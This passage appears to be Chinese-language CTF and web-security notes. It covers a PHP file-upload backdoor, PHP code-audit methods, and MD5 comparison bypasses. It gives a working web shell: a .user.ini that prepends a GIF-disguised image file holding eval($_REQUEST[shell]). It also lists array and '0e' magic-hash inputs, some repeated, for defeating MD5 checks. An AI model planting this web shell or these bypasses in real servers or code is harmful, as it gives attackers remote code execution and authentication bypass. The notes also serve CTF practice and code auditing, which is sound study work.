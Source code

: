 * 服务器脚本语言为PHP
* 服务器使用CGI／FastCGI模式
* 上传目录下要有可执行的php文件

.user.ini

```
GIF89a
auto_prepend_file=a.jpg
```

a.jpg

```php
GIF89a
<script language="php">eval($_REQUEST[shell]);</script>
```

**resources** https://xz.aliyun.com/t/6091#toc-1 https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html

### PHP代码审计常用语句

1.找到入口点，逐个突破 顾名思义，对于大多数页面，我们可以找到站点入口页面：index.php,admin.php,login.php等。逐一步进来分析。对于代码量小的源码可以采取这种方式。但当分析完整的框架/CMS时，基本可以gg。 2.危险函数/参数回溯法 最常用的审计（挖洞）方法。需要结合一些工具（例如：Xdebug+各类IDE）。通过部署环境——全局通扫危险函数/敏感参数——下断点/手动回溯——寻找是否存在利用链。这种方法可以快速定位潜在漏洞点上下文。 假如我们通扫到shell\_exec,call\_user\_function,sql\_query,eval这些喜闻乐见的函数，就可以定位到此处，然后回溯来推出是否存在利用链。 3.业务逻辑分析法 其实在做CTF的题目时候，我们都在使用这种方法。 存在登录框：是否存在SQL注入 存在登录/注册功能：是否存在二次注入 存在上传页面：是否存在上传 存在传URL参：是否存在SSRF …… 对于大的CMS，可以先部署完后，看一下存在什么功能。某些功能是漏洞的常客：初始安装（脱库），数据库备份（mysql重装getshell），密码找回（越权）等等。

#### MD5-MD5-MD5

**MD5数组绕过**

若传入md5函数的参数为数组类型，则返回NULL，null===null，因此可以通过数组绕过===md5判断

a\[]=1 & b\[]=2

**常见的md5碰撞** https://blog.csdn.net/qq\_38603541/article/details/97108663

```
0e开头的md5和原值：
QNKCDZO
0e830400451993494058024219903391
240610708
0e462097431906509019562988736854
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
```